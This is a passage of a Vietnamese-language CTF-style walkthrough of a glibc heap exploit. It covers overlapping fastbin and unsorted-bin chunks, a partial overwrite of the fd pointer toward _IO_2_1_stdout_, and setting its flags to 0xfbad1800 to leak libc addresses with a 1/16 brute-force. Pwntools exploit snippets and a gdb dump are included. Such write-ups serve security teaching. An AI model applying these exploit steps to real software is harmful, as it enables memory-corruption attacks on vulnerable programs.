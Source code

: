 * Bây giờ ta malloc chunk 4, sau đó rename chunk 4 để có thể modify size của chunk 1 bởi vì ta đã tạo 1 link giữa chunk 3 và chunk 1(fd chunk 3 -> chunk1 + 0x10) có nghĩa là khi ta modify chunk 3 thì ta đang modify chunk 1. Free chunk 1 để đẩy chunk 1 vào fastbin, thay đổi size sao cho size của chunk 1 tương thích với size của unsorted_bin. Kết quả ta thu lại được đó là chunk 1 đang nằm ở fastbin và unsorted_bin 

*(Minh họa cho ý tưởng trên)*
![](https://file%2B.vscode-resource.vscode-cdn.net/c%3A/Users/Administrator/OneDrive/Desktop/technique/20200527215346683.png?version%3D1663320472482)
```py
alloc(4,0x60,p64(0)*0xb + p64(0x71))
delete(1)
rename(4,p64(0)*0xb + p64(0x91))
delete(1)
gdb.attach(r)
```
* Bây giờ thì ta chỉ cần modify 2 byte cuối fd pointer của chunk 1(main_arena + 88) nằm trong unsorted_bin thành địa chỉ mà ta muốn. Cái mà gần nhất với `main_arena + 88` chính là `_IO_stdout`, chỉ có 4 byte cuối của hai địa chỉ mà ta nói ở trên là khác nhau 
![](https://img-blog.csdnimg.cn/20200527220408310.png?x-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0JlbmdEb3VMb3Zl%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

Bởi vì aslr trên server được bật vì vậy nếu ta ghi đè 0x7fxxxxx5b78 thành 0x7fxxxxx6620 thì không khả thi vì 3 bits cuối 620 sẽ giữ nguyên, nhưng bit thứ 4 từ dưới lên("6") sẽ luôn random 

![](https://n0va-scy.github.io/images/piture/32.jpg)

Tìm kiếm một lúc thì có 1 địa chỉ phù hợp đó là 0x7fxxxxx25dd, vì bit 5dd giữ nguyên còn bit 2 random thì ta có thể brute-force để có thể tìm được bit phù hợp. Sau khi đã ghi đè địa chỉ của main_arena+88 thành 0x7fxxxx25dd thì ta sẽ fill biến flags của `_IO_stdout` thành 0xfbad1800 và 2 số cuối của `_IO_write_base` thành \x00 sẽ khiến cho nó nhỏ hơn do đó ta sẽ leak được nhiều thứ hơn.
```py
rename(1,b'\xdd\x25')

alloc(5,0x60,b'a')
alloc(6,0x60,b'A'*0x33 + p64(0xfbad1800) + p64(0)*3 + b'\x00')
```
Sau khi đã ghi đè thì struct của `_IO_stdout` sẽ như này 
```c
pwndbg> p _IO_2_1_stdout_
$2 = {
  file = {
    _flags = -72542208,  //0xfbad1800
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x7ffff7dd2600 <_IO_2_1_stderr_+192> 'A' <repeats 32 times>, //ghi đè 2 số cuối thành \x00
    .
    .
    .
  }, 
  vtable = 0x7ffff7dd06e0 <_IO_file_jumps>
}
```
Sau khi modified stdout thì khi chương trình gọi puts(ở lần tiếp theo) thì chương trình sẽ in ra địa chỉ của `_IO_stdout` vì nó nằm ở sau `puts`
(tỉ lệ 1/16 khi brute-force ta sẽ leak được địa chỉ của libc :lol:)
![](Untitled.png)
